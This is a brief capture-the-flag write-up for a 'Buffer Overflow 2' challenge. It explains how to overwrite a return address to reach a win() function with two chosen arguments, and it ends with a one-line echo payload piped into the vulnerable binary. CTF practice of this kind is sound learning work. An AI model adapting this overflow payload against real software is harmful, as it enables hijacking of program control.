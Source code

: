 # Buffer Overflow 2
Alright, this time you'll need to control some arguments. Can you get the flag from this program?

## Solution
This problem required a carefully crafted input that set the return address to the `win()` function and also set the arguments to be `arg1 = 0xDEADBEEF` and `arg2 = 0xDEADC0DE`, respectfully.

### Exploit
```
echo -ne "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDE\xcb\x85\x04\x08abcd\xef\xbe\xad\xde\xde\xc0\xad\xde" | ./vuln
```
